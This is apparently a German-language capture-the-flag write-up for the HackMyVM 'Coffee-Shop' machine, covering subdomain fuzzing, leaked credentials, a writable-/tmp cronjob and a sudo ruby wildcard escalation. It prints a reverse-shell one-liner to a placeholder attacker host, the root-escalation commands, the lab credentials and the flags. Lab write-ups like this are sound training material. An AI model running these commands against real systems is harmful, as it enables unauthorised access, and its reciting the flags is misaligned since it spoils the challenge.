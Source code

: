 # Coffee-Shop - HackMyVM (Easy)

![CoffeeShop Icon](CoffeeShop.png)

## Übersicht

*   **VM:** Coffee-Shop
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=CoffeeShop)
*   **Schwierigkeit:** Easy
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 2024-04-19
*   **Original-Writeup:** https://alientec1908.github.io/CoffeeShop_HackMyVM_Easy/
*   **Autor:** Ben C.

## Kurzbeschreibung

Die virtuelle Maschine "Coffee-Shop" von HackMyVM (Schwierigkeitsgrad: Easy) bot einen vielschichtigen Angriffspfad. Die initiale Informationsbeschaffung erfolgte über die Enumeration einer öffentlich zugänglichen Entwickler-Subdomain (`dev.midnight.coffee`), die Klartext-Zugangsdaten preisgab. Mit diesen Credentials wurde SSH-Zugriff als Benutzer `tuna` erlangt. Die Privilegienerweiterung zu `shopadmin` erfolgte durch die Ausnutzung eines unsicheren Cronjobs, der beliebige `.sh`-Dateien aus `/tmp` als `root` (oder im Kontext des Skript-Eigentümers) ausführte. Der finale Schritt zu Root-Rechten wurde durch eine fehlkonfigurierte `sudo`-Regel erreicht, die es `shopadmin` erlaubte, beliebige Ruby-Skripte als `root` auszuführen.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `vi`
*   `nmap`
*   `nikto`
*   `curl`
*   `hydra`
*   `gobuster`
*   `wfuzz` (für Subdomain/VHost Fuzzing)
*   `dirb`
*   `ssh`
*   `find`
*   `rm`, `mkfifo`, `nc` (für Reverse Shells)
*   `msfconsole` (für Handler und Shell-to-Meterpreter)
*   `grep`
*   Standard Linux-Befehle (`ls`, `cd`, `ss`, `cat`, `echo`, `chmod`, `sudo`, `id`, `su`)
*   `mysql` (Client)
*   `getcap`
*   `ruby`

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Coffee-Shop" erfolgte in diesen Schritten:

1.  **Reconnaissance & Web Enumeration (Extern):**
    *   Ziel-IP (`192.168.2.107`) via `arp-scan` identifiziert und Hostnamen (`uni.hmv`, `midnight.coffee`, `dev.midnight.coffee`) in `/etc/hosts` eingetragen.
    *   `nmap` zeigte offene Ports 22 (SSH 8.9p1) und 80 (Apache 2.4.52). Die Webseite auf Port 80 (`uni.hmv`) war "Under Construction".
    *   `nikto` fand das Verzeichnis `/shop/`. Im Quellcode der Webseite wurde die E-Mail `shopadmin@midnight.coffee` entdeckt.
    *   Brute-Force-Versuche auf `/shop/login.php` für `shopadmin` blieben erfolglos.
    *   Virtual Host Fuzzing mit `wfuzz` auf `midnight.coffee` deckte die Subdomain `dev.midnight.coffee` auf.

2.  **Initial Access (via Dev-Subdomain & SSH):**
    *   Die Seite `http://dev.midnight.coffee` enthielt Klartext-Zugangsdaten für einen Entwickler-Login: `developer`:`developer`.
    *   Nach dem Login auf dieser Seite wurden weitere Klartext-Zugangsdaten für einen Server-Login angezeigt: `tuna`:`1L0v3_TuN4_Very_Much`.
    *   Erfolgreicher SSH-Login auf Port 22 als Benutzer `tuna` mit den gefundenen Credentials.

3.  **Privilege Escalation (tuna zu shopadmin via Cronjob):**
    *   Analyse der `/etc/crontab` als `tuna` zeigte einen Cronjob, der minütlich als `root` das Skript `/home/shopadmin/execute.sh` ausführte.
    *   Das Skript `/home/shopadmin/execute.sh` wiederum führte alle `.sh`-Dateien im Verzeichnis `/tmp` aus (`/bin/bash /tmp/*.sh`).
    *   Ein Reverse-Shell-Payload wurde in `/tmp/rev.sh` geschrieben und ausführbar gemacht: `echo 'bash -i >& /dev/tcp/ATTACKER_IP/9001 0>&1' > /tmp/rev.sh; chmod +x /tmp/rev.sh`.
    *   Der Cronjob führte das Skript aus und etablierte eine Reverse Shell zum Angreifer – überraschenderweise als Benutzer `shopadmin` (und nicht direkt als `root`, wie der Cronjob-Eintrag vermuten ließ).

4.  **Privilege Escalation (shopadmin zu root via sudo ruby):**
    *   `sudo -l` für `shopadmin` offenbarte die Regel: `(root) NOPASSWD: /usr/bin/ruby * /opt/shop.rb`.
    *   Die Wildcard (`*`) erlaubte die Ausführung eines beliebigen Ruby-Skripts. Das Skript `/opt/shop.rb` selbst war harmlos.
    *   Ein eigenes Ruby-Skript (`/tmp/bash.rb`) wurde erstellt mit dem Inhalt `exec "/bin/bash"`.
    *   Mit dem Befehl `sudo -u root /usr/bin/ruby /tmp/bash.rb /opt/shop.rb` wurde das eigene Skript als `root` ausgeführt, was zu einer Root-Shell führte.
    *   Die Root-Flag wurde aus `/root/root.txt` gelesen. (Die User-Flag wurde implizit übersprungen oder nicht explizit im Log erwähnt, aber der Pfad war klar auf Root-Eskalation ausgelegt).

## Wichtige Schwachstellen und Konzepte

*   **Informationslecks auf Entwicklungsseiten:** Preisgabe von Klartext-Zugangsdaten auf einer öffentlich zugänglichen Entwickler-Subdomain.
*   **Unsicherer Cronjob:** Ausführung von Skripten aus einem allgemein beschreibbaren Verzeichnis (`/tmp`) mit erhöhten Rechten.
*   **Fehlkonfigurierte `sudo`-Regel:** Erlaubte die Ausführung von `ruby` mit einer Wildcard, was das Ausführen beliebiger Ruby-Skripte als `root` ermöglichte.
*   **Klartext-Credentials in Webanwendungen/Dashboards.**
*   **Virtual Host Fuzzing:** Zur Entdeckung versteckter Subdomains.

## Flags

*   **User Flag:** (Im Log wird eine User-Flag `DR1NK1NG-C0FF33-4T-N1GHT` am Ende gezeigt, deren Fundort während des dokumentierten Pfades aber nicht explizit genannt wurde. Der Fokus lag auf der direkten Eskalation.)
*   **Root Flag (`/root/root.txt`):** `C4FF3331N-ADD1CCCTINNNN`

## Tags

`HackMyVM`, `Coffee-Shop`, `Easy`, `Web`, `Subdomain Enumeration`, `Hardcoded Credentials`, `Cronjob Exploitation`, `Sudo Privilege Escalation`, `Ruby`, `Linux`, `Apache`, `SSH`
